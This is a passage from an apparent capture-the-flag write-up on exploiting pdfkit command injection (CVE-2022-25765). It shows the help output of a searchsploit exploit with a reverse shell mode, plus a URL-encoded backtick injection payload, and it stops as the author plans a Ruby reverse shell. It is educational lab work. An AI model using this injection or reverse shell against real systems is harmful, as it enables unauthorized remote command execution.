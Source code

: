 ![image](https://cdn-images-1.medium.com/max/1000/1*PKlhHA73_RXcs9J3OFL_hQ.png)

There is. But it's not the same version of pdfkit.

Ill pull it althought I know it's not the version, but maybe Ill find out that is ok:

```
searchsploit -m 51293.py
```

While reading the exploit there is description that answer the question.

```
# Description: The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.
```

So, I guess it will work.

run the script with -h flag to get information about how to use it.

```bash
python3 51293.py -h    
UNICORD Exploit for CVE-2022–25765 (pdfkit) - Command Injection

Usage:
  python3 exploit-CVE-2022–25765.py -c <command>
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port>
  python3 exploit-CVE-2022–25765.py -c <command> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -h

Options:
  -c    Custom command mode. Provide command to generate custom payload with.
  -s    Reverse shell mode. Provide local IP and port to generate reverse shell payload with.
  -w    URL of website running vulnerable pdfkit. (Optional)
  -p    POST parameter on website running vulnerable pdfkit. (Optional)
  -h    Show this help men
```

There is reverse shell mode. Use -s flag.
After few attempts I recognized that isn't going to work. :(

Let's find another cve.

https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

Let's make the poc shorter for you.

There is an option to run command on the system by:

```bash
http%20`<command here>`
```
%20 is just an encoded space.

Ill use ruby reverse shell trying get one on my machine.
